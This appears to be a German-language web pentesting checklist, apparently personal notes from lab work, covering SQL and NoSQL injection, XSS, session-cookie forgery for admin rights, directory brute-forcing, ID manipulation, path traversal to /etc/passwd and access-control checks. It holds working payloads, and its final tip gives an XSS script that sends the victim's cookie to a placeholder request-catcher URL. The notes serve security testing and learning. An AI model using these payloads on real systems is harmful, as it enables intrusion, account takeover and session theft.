 ## Checkliste Web-Pentesting
1. Passive & Active Scan mit OWASP ZAP / Mit Authentication und Proxy

2. Nach SQLi suchen
	- sqlmap
	`sqlmap.py -u [POST-GET-URL] --dbs`
	
	- Zeichen Injection
	`'` `;` `&&`
	[SQLi Cheat Sheet (1)](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
	[SQLi Cheat Sheet (2)](https://portswigger.net/web-security/sql-injection/cheat-sheet)

	- No-SQL-Attack-Suite
	`python3 nosql-login-bypass.py -t [POST-URL] -u customer0 -p compass`
	
	- NoSQLi Bypass Login
	`{"$ne": 0}`
	`{"$ne": -1}`
	`{"$gt":""}`

3. Nach XSS-Schwachstellen suchen
	- Manuelle Injection mit `<script>alert("XSS");</script>`
	- Manuelle Injection mit `</textarea><script>alert("XSS");</script>`
	- Automatisierte Injection mit [traxss](https://www.geeksforgeeks.org/traxss-automated-xss-vulnerability-scanner/)
	`python3 traxss.py`
	`python3 xsstrike.py -u [URL]`

4. Session Cookie admin flag prüfen
	- Session Cookies beginnen meist mit `ey`
	- Cookiename behinhaltet meistens Session
	- In ZAP nach Login das Session Cookie abrufen / Oder in Browser Console
	![[CleanShot 2022-09-28 at 09.55.23.png]]
	- Prüfen ob Session Cookie nach Login / Logout ändert
	- Prüfen ob Session Cookie einfach verschlüsselt ist ([CyberChef](https://gchq.github.io/CyberChef/#recipe=Magic(3,false,false,'')))	
	- Wenn Session Cookie entschlüsselbar versuchen admin Flag zu setzen
		- Meist `role:user` > `role:admin`  oder `admin:0` > `admin:1` 
	- Session Cookie über Browser Console eingeben oder direkt im Storage teil editieren `document.cookie="_sess=eyJ1c2VybmFtZSI6ImxlZXRoYWNrZXIiLCJhZG1pbiI6MX0="`
	![[CleanShot 2022-10-27 at 20.34.55.png]]

5. Mit dirbuster / gobuster Website auf versteckte Verzeichnise Scannen 
	`dirb [URL] [WORDLIST]`
	`gobuster dir -u [URL] -w [WORDLIST]`

6. Testen ob Seiten existieren
	- 403 / 404 kann Hinweis geben ob Seite existiert oder nicht (Beispiel ob User-Profil existiert oder nicht)
	- Testen auf Userprofile Seite wenn vorhanden

7. HTML Source Code checken
	- Kommentare mit Test Username / Links
	- Eingesetzte Software (-version)

8. URL prüfen
	- URL manipulieren. Beispiel ID ändern:
		`http://localhost:2501/updateblog?id=7`
	
	- POST-URL manipulieren
		![[CleanShot 2022-10-26 at 21.13.50.png]]
	
	- Path Traversal / Local file Inclusion (Auf versteckte Dateien prüfen)
	`http://localhost:2501/../../../../../../../etc/passwd`
	`http://localhost:2501/app.php?page=../../../../../../etc/passwd`

9. Berechtigung auf Unterseiten testen
	- Testen ob der Zugriff auf gewisse URLs auch als nicht berechtigter User oder Besucher funktioniert
	- Testen ob geschützte Ressourcen / Bilder / Artikel von unprivilegierten Benutzern angesehen werden können (Rechtsklick > URL kopieren > In Incognito Fenster öffnen)

10. Testen auf Fehlermeldungen
	- Zuviele Details in Fehlermeldungen können als Sicherheitslücke bewertet werden

## Tipps
- Persisten Log in Browser Network Console aktivieren
![[CleanShot 2022-10-13 at 20.32.05.png]]

- Session Cookie in Browser ändern (Browser Tools > Storage > Nach "session" suchen)
![[CleanShot 2022-10-30 at 20.00.46.png]]

- Cookie an Request Catcher senden (XSS)
```
<script>document.location="[URL-Request-Catcher]?cookie=" + document.cookie;</script>
```